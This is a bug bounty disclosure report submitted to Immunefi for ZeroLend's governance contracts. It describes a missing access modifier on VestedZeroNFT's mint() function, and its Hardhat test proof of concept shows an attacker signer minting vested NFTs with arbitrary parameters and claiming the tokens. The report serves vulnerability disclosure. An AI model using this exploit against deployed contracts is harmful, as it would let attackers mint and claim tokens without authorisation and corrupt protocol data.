 
# Unauthorized minting of vested NFTs

Submitted on Thu Feb 29 2024 10:43:28 GMT-0400 (Atlantic Standard Time) by @riptide for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28875

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
`VestedZeroNFT` contract lacks a permissioned modifer for `mint()` on `L63` which allows any user to mint an unlimited amount of `VestedZeroNFTs` to any address with falsified categories.

## Vulnerability Details
Lack of permissioned modifier to a function explicitly specified as protected in the comments.

## Impact Details
Low impact other than misrepresenting the `VestCategory` at will and corrupting any analytics when viewing the collection and stats of the vested NFTs (amounts, cliff times, linear, etc all can be arbitrarily set).

## References
Add any relevant links to documentation or code

        
## Proof of concept
```
import { expect } from "chai";
import { deployGovernance } from "./fixtures/governance";
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import { VestedZeroNFT } from "../typechain-types";
import { e18 } from "./fixtures/utils";
const { ethers } = require("hardhat");

describe.only("VestedZeroNFT", () => {
  let ant: SignerWithAddress;
  let vest: VestedZeroNFT;
  let now: number;

  beforeEach(async () => {
    const deployment = await loadFixture(deployGovernance);
    ant = deployment.ant;
    vest = deployment.vestedZeroNFT;
    now = Math.floor(Date.now() / 1000);

  });

  describe("unprotected mint function", () => {

    it("anyone can mint an NFT with any vesting parameters", async function () {
      const [attacker] = await ethers.getSigners();
      await vest.connect(attacker).mint(
        ant.address,
        e18 * 15n, // 15 ZERO linear vesting
        e18 * 5n, // 5 ZERO upfront
        1, // linear duration
        0, // cliff duration - 500 seconds
        now + 1000, // unlock date
        false, // penalty -> false
        0
      );
      expect(await vest.balanceOf(ant)).to.equal(1);
      expect(await vest.ownerOf(1)).to.equal(ant.address);
      expect(await vest.tokenOfOwnerByIndex(ant.address, 0)).to.equal(1);

      await time.increaseTo(now + 1001);
      const res = await vest.claimable(1);
      console.log("unlock date: ", now + 1000);
      console.log(res);
      expect(res.upfront).to.equal(e18 * 5n);
      expect(res.pending).to.equal(e18 * 15n);

      expect(await vest.claim.staticCall(1)).to.eq(e18 * 20n);
      await vest.claim(1);
      expect(await vest.claimed(1)).to.equal(e18 * 20n);
      expect(await vest.unclaimed(1)).to.equal(0);
    });

    
    it("anyone can mint an NFT with zero value", async function () {
      const [attacker] = await ethers.getSigners();
      await vest.connect(attacker).mint(
        ant.address,
        0, // 15 ZERO linear vesting
        0, // 5 ZERO upfront
        1, // linear duration
        500, // cliff duration - 500 seconds
        now + 1000, // unlock date
        false, // penalty -> false
        0
      );

    });

    it("anyone can mint an NFT with incorrect categorization", async function () {
      const [attacker] = await ethers.getSigners();
      await vest.connect(attacker).mint(
        ant.address,
        e18 * 15n, // 15 ZERO linear vesting
        e18 * 5n, // 5 ZERO upfront
        1, // linear duration
        0, // cliff duration - 500 seconds
        now + 1000, // unlock date
        false, // penalty -> false
        1
      );
    });


  });
});
```